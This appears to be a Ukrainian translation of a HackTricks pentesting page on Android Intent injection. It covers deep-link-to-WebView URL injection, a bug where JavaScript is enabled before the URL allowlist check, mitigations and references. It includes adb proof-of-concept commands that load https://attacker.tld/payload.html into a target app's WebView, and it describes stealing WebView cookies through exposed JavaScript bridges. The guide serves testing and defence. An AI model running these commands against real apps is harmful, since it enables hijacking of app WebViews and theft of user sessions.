 # Intent Injection

{{#include ../../banners/hacktricks-training.md}}

Впровадження Intent зловживає компонентами, які приймають Intents або дані, контрольовані атакуючим, які пізніше перетворюються на Intents. Два дуже поширені шаблони під час тестування Android-додатків:

- Передача спеціально підготовлених додаткових даних до експортованих Activities/Services/BroadcastReceivers, які пізніше пересилаються до привілейованих, неекспортованих компонентів.
- Виклик експортованих VIEW/BROWSABLE глибоких посилань, які пересилають URL-адреси, контрольовані атакуючим, у внутрішні WebViews або інші чутливі місця.

## Deep links → WebView sink (URL parameter injection)

Якщо додаток відкриває глибоке посилання з користувацькою схемою, таке як:
```text
myscheme://com.example.app/web?url=<attacker_url>
```
і отримуюча Activity пересилає параметр запиту `url` у WebView, ви можете примусити додаток відобразити довільний віддалений контент у своєму контексті WebView.

PoC через adb:
```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```
Impact
- HTML/JS виконується всередині профілю WebView додатку.
- Якщо JavaScript увімкнено (за замовчуванням або через неправильний порядок перевірок), ви можете перерахувати/використовувати будь-які відкриті `@JavascriptInterface` об'єкти, вкрасти куки WebView/локальне сховище та здійснити поворот.

Дивіться також:

{{#ref}}
webview-attacks.md
{{#endref}}

## Помилка порядку перевірок, що дозволяє JavaScript

Постійна помилка полягає в увімкненні JavaScript (або інших дозволяючих налаштувань WebView) до завершення остаточної перевірки списку дозволених URL. Якщо ранні допоміжні функції приймають ваш глибокий посилання, а WebView налаштовано спочатку, ваше остаточне завантаження відбувається з уже увімкненим JavaScript, навіть якщо пізні перевірки є ненадійними або запізнілими.

На що звернути увагу в декомпільованому коді:
- Кілька допоміжних функцій, які по-різному аналізують/розділяють/перебудовують URL (неконсистентна нормалізація).
- Виклики `getSettings().setJavaScriptEnabled(true)` перед останньою перевіркою списку дозволених хостів/шляхів.
- Конвеєр на кшталт: аналіз → часткова валідація → налаштування WebView → остаточна перевірка → loadUrl.

Mitigations
- Канонізуйте один раз і строго перевіряйте; закривайте при невдачі.
- Увімкніть JavaScript лише після проходження всіх перевірок і безпосередньо перед завантаженням довіреного контенту.
- Уникайте відкриття мостів для ненадійних джерел.

## Інші класичні примітиви ін'єкції Intent

- startActivity/sendBroadcast з використанням `Intent` екстра, наданих атакуючими, які пізніше повторно аналізуються (`Intent.parseUri(...)`) і виконуються.
- Експортовані проксі-компоненти, які пересилають Intents до неекспортованих чутливих компонентів без перевірок дозволів.

## References

- [Android – Доступ до компонентів, захищених додатком](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Samsung S24 Exploit Chain Pwn2Own 2024 Walkthrough](https://medium.com/@happyjester80/samsung-s24-exploit-chain-pwn2own-2024-walkthrough-c7a3da9a7a26)
- [Pwn2Own Ireland 2024 – Ланцюг атак Samsung S24 (біла книга)](https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)
- [Демонстраційне відео](https://www.youtube.com/watch?v=LAIr2laU-So)

{{#include ../../banners/hacktricks-training.md}}
